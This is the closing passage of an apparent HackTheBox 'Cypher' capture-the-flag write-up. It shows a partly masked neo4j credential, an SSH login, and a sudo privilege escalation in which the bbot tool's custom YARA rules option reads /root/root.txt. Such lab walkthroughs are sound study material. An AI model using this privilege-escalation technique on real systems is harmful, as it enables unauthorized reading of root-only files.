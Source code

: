 ~~~ shell
    neo4j:
      username: neo4j
      password: cU4btyib.***************

~~~

## Connect SSH Server

~~~ shell
┌──(trit㉿chimp)-[~/HackTheBox/Cypher]
└─$ ssh graphasm@10.10.11.57
graphasm@10.10.11.57's password: 
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.8.0-53-generic x86_64)

graphasm@cypher:~$ ls
bbot_preset.yml  user.txt
graphasm@cypher:~$ cat user.txt 
~~~

I prefre about `bbot` tool this [website](https://www.blacklanternsecurity.com/bbot/Stable/modules/custom_yara_rules/).

~~~
sudo /usr/local/bin/bbot --custom-yara-rules /root/root.txt
~~~

~~~
sudo /usr/local/bin/bbot -cy /root/root.txt -d --dry-run
~~~

~~~ shell
graphasm@cypher:~$ sudo -l
Matching Defaults entries for graphasm on cypher:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User graphasm may run the following commands on cypher:
    (ALL) NOPASSWD: /usr/local/bin/bbot
graphasm@cypher:~$ cat /usr/local/bin/bbot
#!/opt/pipx/venvs/bbot/bin/python
# -*- coding: utf-8 -*-
import re
import sys
from bbot.cli import main
if __name__ == '__main__':
    sys.argv[0] = re.sub(r'(-script\.pyw|\.exe)?$', '', sys.argv[0])
    sys.exit(main())
graphasm@cypher:~$ sudo /usr/local/bin/bbot --custom-yara-rules /root/root.txt -d 
~~~

***Thank you for readling this far! I hope this writeup helps you in your learning and research.***
